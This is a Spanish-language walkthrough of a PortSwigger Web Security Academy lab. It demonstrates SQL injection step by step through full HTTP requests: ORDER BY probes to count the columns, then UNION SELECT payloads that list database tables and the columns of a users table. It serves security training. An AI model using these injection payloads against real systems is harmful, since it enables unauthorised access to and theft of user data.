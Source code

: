 ```yaml
---
description: >-
  https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle
---
```


# Lab 5: SQL injection attack, listing the database contents on non-Oracle databases

Se inicia el laboratorio y al interactuar con los filtros de busqueda:

Se genera la siguiente peticion:

```
GET /filter?category=Corporate+gifts HTTP/2
Host: 0aeb00b004aac525817ed54000ef0015.web-security-academy.net
Cookie: session=5YjQozT4bUZR3JR3qDg9UE97lh1xaCaY
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aeb00b004aac525817ed54000ef0015.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

Y la anterior peticion responde asi:

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 8912

```

Empezamos a validar el numero de campos con ORDER BY:

```
GET /filter?category='+order+by+1-- HTTP/2
Host: 0aeb00b004aac525817ed54000ef0015.web-security-academy.net
Cookie: session=5YjQozT4bUZR3JR3qDg9UE97lh1xaCaY
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aeb00b004aac525817ed54000ef0015.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

Lo anterior responde asi:

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3920

```

Se procede a incrementar el valor a 2:

```
GET /filter?category='+order+by+2-- HTTP/2
Host: 0aeb00b004aac525817ed54000ef0015.web-security-academy.net
Cookie: session=5YjQozT4bUZR3JR3qDg9UE97lh1xaCaY
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aeb00b004aac525817ed54000ef0015.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

Y lo anterior responde asi:

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3920

```

Y finalizamos validando con el numero 3:

```
GET /filter?category='+order+by+3-- HTTP/2
Host: 0aeb00b004aac525817ed54000ef0015.web-security-academy.net
Cookie: session=5YjQozT4bUZR3JR3qDg9UE97lh1xaCaY
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aeb00b004aac525817ed54000ef0015.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

La inyeccion previa responde con un error:

```
HTTP/2 500 Internal Server Error
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2423

```

Por lo tanto, podemos afirmar que tenemos 2 campos disponibles para nuestras proximas inyecciones:

Luego de validar que tipo de dato son cada columna, podemos enumerar con el siguiente payload:

```
GET /filter?category='+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables-- HTTP/2
Host: 0aeb00b004aac525817ed54000ef0015.web-security-academy.net
Cookie: session=5YjQozT4bUZR3JR3qDg9UE97lh1xaCaY
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aeb00b004aac525817ed54000ef0015.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

La anterior consulta responde asi:

<figure><img src="../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Luego de obtener los nombres de las tablas podemos intentar retornar las columnas de una tabla especifica:

```
GET /filter?category='+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_upxvct'-- HTTP/2
Host: 0aeb00b004aac525817ed54000ef0015.web-security-academy.net
Cookie: session=5YjQozT4bUZR3JR3qDg9UE97lh1xaCaY
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aeb00b004aac525817ed54000ef0015.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

El payload anterior logra retornar los nombres de las columnas de la tabla USUARIOS:

<figure><img src="../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Utilizando los nombres de las columnas y el nombre de la tabla, se diseña una consulta que retorne los valores que tiene esta tabla:

<figure><img src="../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
